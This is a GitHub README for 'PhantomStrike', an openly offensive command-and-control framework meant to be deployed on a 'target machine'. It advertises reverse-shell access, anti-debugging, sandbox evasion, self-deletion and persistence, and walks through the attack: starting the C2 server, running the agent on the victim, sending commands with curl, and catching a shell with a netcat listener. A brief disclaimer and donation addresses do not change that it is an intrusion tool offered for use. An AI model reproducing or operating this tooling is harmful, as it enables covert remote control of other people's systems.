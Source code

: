 PhantomStrike - Stealth C2 Framework


---

██████╗ ██╗  ██╗ █████╗ ███╗   ███╗████████╗ ██████╗ ███████╗
██╔══██╗██║  ██║██╔══██╗████╗ ████║╚══██╔══╝██╔═══██╗██╔════╝
██████╔╝███████║███████║██╔████╔██║   ██║   ██║   ██║███████╗
██╔═══╝ ██╔══██║██╔══██║██║╚██╔╝██║   ██║   ██║   ██║╚════██║
██║     ██║  ██║██║  ██║██║ ╚═╝ ██║   ██║   ╚██████╔╝███████║
╚═╝     ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝   ╚═╝    ╚═════╝ ╚══════╝

PhantomStrike - Stealth C2 Framework

🚀 Advanced post-exploitation framework for stealth persistence, privilege escalation, and remote control.


---

🔧 Features

✅ AES Encryption – Secure communication
✅ Stealth Mode – Hides execution traces
✅ Anti-Debugging – Evades analysis tools
✅ Reverse Shell – Full remote access
✅ Fileless Execution – Runs in memory
✅ Self-Delete – Auto-removes after execution
✅ Persistence Mode – Maintains access after reboots


---

📌 Installation

1️⃣ Clone the Repo

git clone https://github.com/Akkaiaj/PhantomStrike.git
cd PhantomStrike

2️⃣ Install Dependencies

pip install -r requirements.txt


---

🚀 Usage

1️⃣ Start the C2 Server (Attacker Machine)

python3 phantom_c2.py

📌 This will start the Flask-based C2 server.


---

2️⃣ Deploy the Agent (Target Machine)

Run the agent on the target system:

python3 phantom_agent.py

📌 This will:

Connect to the C2 server

Execute commands sent from C2

Start a reverse shell



---

🛠️ Sending Commands

From the C2 server, you can send commands to the agent:

curl -X POST http://your-server-ip:5000/command -H "Content-Type: application/json" -d '{"command": "whoami"}'

📌 The agent will execute this command and send back the result.


---

🔥 Reverse Shell Usage

Once the agent is running, connect to the reverse shell from the C2 machine:

nc -lvnp 4444

📌 Now you have full control over the target system!


---

🕵️‍♂️ Evasion & Persistence

Anti-Debugging: Detects debuggers and terminates itself.

Self-Delete: Deletes itself after execution to remove traces.

Persistence Mode: Runs at startup for continued access.



---

🛡️ Defensive Measures

Uses AES encryption to secure command communication

Evades sandbox detection & monitoring tools

Implements polymorphic obfuscation for stealth



---

💰 Donate & Support

If you find PhantomStrike useful, consider donating:

BTC: bc1q0ruwrc4gs465xvu6tcn24h62pclt96sh2yv8pq

ETH: 0x69B6F3aA9F470d4cBD93CDC4c0A887C0787CEf9B

SOL: Gk6CmvvS6fi1Nfnu7QEEneshbLkmaE5Ue8sBzxz91D3q


---

💀 Disclaimer

This tool is for educational and ethical hacking purposes only. Unauthorized use is illegal.


---

✅ Now update your GitHub repo with this README:

cd ~/PhantomStrike
nano README.md  # Replace with new content
git add README.md
git commit -m "Updated README with detailed usage and ASCII art"
git push origin main
